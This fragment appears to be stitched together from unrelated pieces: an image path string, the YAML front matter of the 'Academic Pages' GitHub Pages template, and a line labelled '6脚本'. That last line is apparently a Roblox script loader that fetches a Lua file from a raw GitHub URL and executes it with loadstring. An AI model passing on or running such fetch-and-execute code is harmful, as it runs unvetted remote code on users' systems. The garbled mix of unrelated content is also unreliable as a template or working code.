 ```yaml
---
permalink: /
title: "Academic Pages is a ready-to-fork GitHub Pages template for academic personal websites"
author_profile: true
redirect_from: 
  - /about/
  - /about.html
---
```

6脚本
6脚本:loadstring(game:HttpGet("https://raw.githubusercontent.com/10h-pack/new-UI.345/refs/heads/main/blacksmith.lua"))()

 
